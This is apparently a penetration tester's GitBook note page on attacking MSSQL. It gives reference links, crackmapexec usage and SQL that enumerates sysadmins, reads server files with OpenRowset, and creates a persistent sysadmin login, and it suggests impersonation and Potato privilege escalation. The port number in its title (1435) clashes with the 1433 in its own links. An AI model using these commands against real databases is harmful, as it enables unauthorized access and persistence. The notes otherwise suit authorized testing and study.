 # 1435 - MSSQL

{% hint style="danger" %}
If MSSQL port is open, try to login and see if we can execute commands or we are database admin to impersonate and use Potatoes to privesc to Administrator
{% endhint %}

## Overview

{% content-ref url="../web-pentesting/sql-injection-sqli/mssql.md" %}
[mssql.md](../web-pentesting/sql-injection-sqli/mssql.md)
{% endcontent-ref %}

{% code overflow="wrap" fullWidth="true" %}
```sql
https://www.exploit-db.com/papers/12975
https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server
https://learn.microsoft.com/en-us/sql/relational-databases/databases/system-databases?view=sql-server-ver16
https://www.bugb.co/post/1433-pentesting-mssql-microsoft-sql-server
https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server

cme mssql $IP -u $USER -p $PASS (--local-auth / --windows-auth) -L # list modules
... -M mssql_priv

# Find version
select @@version;
# KNOWN EXPLOITS
CVE-2018-8273
# Admin users
SELECT name FROM master..syslogins WHERE sysadmin = '1';

# Create a new user with sysadmin privilege
CREATE LOGIN tester WITH PASSWORD = 'password'
EXEC sp_addsrvrolemember 'tester', 'sysadmin'
# * Use those permissions to create a new sysadmin user so we do not need to go through link servers again in order to execute commands.

# Check my permissions
select * from fn_my_permissions(null, 'server');

mssqlclient.py ...
SQL> help
# Read files
select x from OpenRowset(BULK 'C:\Windows\win.ini',SINGLE_CLOB) R(x)
```
{% endcode %}

## With credentials
